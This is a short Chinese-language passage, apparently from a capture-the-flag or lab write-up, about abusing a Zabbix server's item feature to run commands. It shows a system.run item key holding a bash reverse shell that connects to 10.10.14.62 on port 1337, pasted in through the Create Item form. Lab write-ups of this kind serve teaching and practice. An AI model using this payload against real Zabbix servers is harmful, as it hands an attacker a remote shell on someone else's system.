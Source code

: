 为了利用这一点，我们需要向服务器添加一个新项目，并安排它的运行时间。首先单击配置，然后单击主机，然后单击项目:

![](img/1b7e5f8d6c3d00b8a5aa63057bf6801a.png)

Zabbix 主机

# 反向外壳

单击最右边的 Create Item 按钮，然后使用这个简单的 bash reverse shell 作为我们将要运行的命令:

```
system.run[/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.62/1337 0>&1',nowait]
```

给你的物品起个名字，然后把我们的命令粘贴到关键字段:

![](img/3780ddd8c0963f8450c40d335434bbf0.png)
